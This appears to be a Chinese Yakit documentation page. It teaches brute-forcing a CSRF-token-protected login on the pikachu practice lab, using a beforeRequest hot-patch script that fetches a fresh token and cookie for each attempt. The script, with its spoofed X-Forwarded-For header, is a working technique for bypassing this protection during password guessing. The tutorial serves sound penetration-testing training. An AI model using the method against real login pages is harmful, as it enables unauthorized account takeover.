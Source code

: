 ```yaml
---
sidebar_position: 18
---
```


# 九、热加载场景案例：csrf token保护下的爆破
这篇文章我们将会介绍一个热加载的实际应用案例：csrf token保护下的爆破。我们以pikachu靶场为例，安装pikachu靶场后(**记得要初始化**)，我们打开如下页面：
![](/img/products/yakit/Fuzz-hotpatch-example1/1.png)

任意输入账号密码之后，使用 yakit 的 MITM 模块拦截登录请求，我们可以看到请求如下：
![](/img/products/yakit/Fuzz-hotpatch-example1/2.png)

注意到除了用户和密码之外，还存在一个token的post参数，这是一个csrf token，它主要是用来防止CSRF攻击的，但是这也给我们的爆破增加了一定的难度，因为每次爆破都需要使用一个新的token。那么在这种情况下我们应该如何爆破呢？

首先我们应该来看看token是从哪里获取的，我们继续使用 yakit 的 MITM 模块拦截请求，这次我们拦截的是直接访问该页面的GET请求，当我们将其发送到 Web FUzzer 发送请求后，可以看到其响应中存在token：
![](/img/products/yakit/Fuzz-hotpatch-example1/3.png)

接下来就是让热加载出手了。我们很容易想到热加载中的"魔术"方法：`beforeRequest`。我们可以在请求发送前，再次发送一个GET请求来获取token值，再用这个值进行爆破，就可以绕过csrf token的保护了。

我们来看看如何实现，首先我们需要在热加载页面中编写热加载内容，代码如下：
```go
beforeRequest = func(req) {
// 发送GET请求，获取响应
rsp, _, err = poc.HTTP(`GET /vul/burteforce/bf_token.php HTTP/1.1
Host: 7f893460-c83a-4bce-83c7-d325ff9b65ba.node4.buuoj.cn:81
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7
Cache-Control: max-age=0
Referer: http://7f893460-c83a-4bce-83c7-d325ff9b65ba.node4.buuoj.cn:81/vul/csrf/csrfget/csrf_get_login.php
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
X-Forwarded-For: 127.0.0.1
x-forwarded-for: 127.0.0.1
`)
if err != nil {
    return req
}
// 获取GET响应的Set-Cookie
cookie = poc.GetHTTPPacketHeader(rsp, "Set-Cookie")
node, err = xpath.LoadHTMLDocument(rsp)
if err != nil {
    return req
}
// 通过xpath语法获取token的值
tokenNode = xpath.FindOne(node, "//input[@name='token']")
if tokenNode == nil {
    return req
}
token = xpath.SelectAttr(tokenNode, "value")
// 替换token
req = req.ReplaceAll("__TOKEN__", token)
// 替换cookie
req = poc.AppendHTTPPacketHeader(req, "Cookie", cookie)
return req
}
```
这里我们一共做了以下几件事情：
1. 通过GET请求，拿到响应
2. 通过响应拿到Set-Cookie的值
3. 通过xpath语法获取token的值
4. 替换`__TOKEN__`为实际的token
5. 添加POST请求的Cookie为第二步中拿到的Set-Cookie，这样模拟了多个用户同时请求的情况


我们将token参数改为`__TOKEN__`，然后点击**发生请求**按钮，如图所示，显示`username or password is not exists～`而不是`csrf token error`，这证明我们已经成功获取到token了：
![](/img/products/yakit/Fuzz-hotpatch-example1/4.png)

接下来就很简单了，使用我们前面学到的 fuzztag 知识，使用 fuzztag 爆破密码，成功爆破出了admin的密码为123456：
![](/img/products/yakit/Fuzz-hotpatch-example1/5.png)

需要注意的是，我们使用了并发的技术来请求该网站，这也是我们为什么需要先从GET请求的响应中拿到Set-Cookie然后再设置POST请求的Cookie的原因，因为我们需要模拟多个用户同时请求的情况，如果是单个用户请求的话，我们需要将并发改为1。